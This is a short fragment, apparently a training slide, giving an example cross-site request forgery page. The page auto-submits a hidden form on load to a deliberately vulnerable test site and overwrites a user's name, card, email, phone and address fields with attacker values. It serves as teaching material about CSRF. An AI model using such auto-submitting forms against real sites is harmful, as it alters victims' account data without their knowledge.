

# Examples

<body onload="document.getElementById('f').submit()">
<form id="f" action="http://testphp.vulnweb.com/userinfo.php" method="post" name="form1">
<input name="urname" value="attacker’svalue">
<input name="ucc" value=" attacker’svalue">
<input name="uemail" value=" attacker’svalue">
<input name="uphone" value=" attacker’svalue">
<textarea name="uaddress" wrap="soft"><attacker’svalue></textarea>
<input name="update" value="update">
</form>
</body>